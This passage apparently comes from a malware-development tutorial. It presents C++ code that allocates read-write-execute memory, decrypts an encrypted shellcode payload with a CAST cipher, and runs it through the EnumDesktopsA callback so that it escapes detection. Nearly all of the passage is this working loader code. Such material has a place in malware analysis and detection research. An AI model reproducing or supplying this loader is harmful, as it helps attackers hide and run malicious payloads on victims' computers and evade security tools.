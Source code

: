 ![cryptography](/assets/images/131/2024-07-28_17-07.png){:class="img-responsive"}      

Our payload in the `.text` section.    

### practical example 2

Update our simple logic, just replace entire payload decryption and running to decrypt and run shellcode like this:     

```cpp
void cast_decrypt_and_execute_shellcode(unsigned char* shellcode, int shellcode_len, uint32_t subkeys[ROUNDS][4]) {
  LPVOID mem_block = NULL;
  // allocate a single block for execution
  mem_block = VirtualAlloc(NULL, shellcode_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  if (mem_block == NULL) {
    printf("memory allocation failed\n");
    exit(1);
  }

  // decrypt the entire shellcode into the allocated memory
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    uint32_t decrypted_block[2];
    memcpy(decrypted_block, shellcode + i * BLOCK_SIZE, BLOCK_SIZE);
    cast_decrypt(decrypted_block, subkeys);
    memcpy((char *)mem_block + i * BLOCK_SIZE, decrypted_block, BLOCK_SIZE);
  }

  // execute the shellcode using EnumDesktopsA
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem_block, (LPARAM)NULL); 
}
```
